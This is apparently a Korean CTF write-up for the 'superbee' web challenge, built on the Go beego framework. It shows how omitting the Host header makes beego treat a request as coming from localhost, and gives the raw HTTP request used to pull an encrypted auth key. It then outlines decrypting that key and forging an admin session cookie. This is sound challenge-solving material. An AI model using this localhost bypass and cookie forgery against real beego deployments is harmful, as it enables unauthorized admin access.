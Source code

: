 여기서 주목할 부분은 `conf/app.conf` 내에 정의되어있지 않은 `auth_crypt_key` 설정값을 `main()` function 내에서 가져온다는 것이다.

```go
app_name = superbee
auth_key = [----------REDEACTED------------]
id = admin
password = [----------REDEACTED------------]
flag = [----------REDEACTED------------]
```

이는 다음과 같은 형태로 암호화가 진행됨을 뜻한다.

$$
E(auth\_key,  Padding(null))
$$

admin\_id는 `admin`임을 config 파일을 통해 알 수 있다. AES는 대칭키 암호체계이기 때문에, 패딩 이전의 key가 null임을 이용하여 auth\_key를 구해낼 수 있다.

문제 풀이 흐름은 다음과 같다.

1. localhost로 `/admin/authkey`에 접근하여 암호문 획득
2. 이를 `Padding(null)` 값으로 복호화하여 `auth_key` 획득
3. 헤더에 `Cookie: md5("sess") : md5("admin" + auth_key)` 추가
4. `/main/index`로 접근하여 flag 획득

localhost로 접근하기 위해 XFF와 같이 요청지를 속일 수 있는 헤더 위주로 공격을 시도했으나 먹히지 않았다. 문제의 웹 서버는 beego 프레임워크를 사용하는데, 아래 코드를 통해 `Host()`가 localhost를 반환하는 조건을 확인할 수 있다.

{% embed url="https://github.com/beego/beego/blob/b3e78c97d7e4eb076d8dc05724e3fee2f73c9b34/server/web/context/input.go#L121" %}
Host() return 'localhost' logic
{% endembed %}

즉, Host 헤더가 없으면 localhost를 반환한다. 실제로 Host를 빼고 요청해서 암호문을 획득할 수 있었다.

```http
GET /admin/authkey HTTP/1.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7,und;q=0.6

-----------------------------------------

HTTP/1.1 200 OK
Date: Sat, 26 Feb 2022 23:06:53 GMT
Content-Length: 96
Content-Type: text/plain; charset=utf-8

00fb3dcf5ecaad607aeb0c91e9b194d9f9f9e263cebd55cdf1ec2a327d033be657c2582de2ef1ba6d77fd22784011607
```
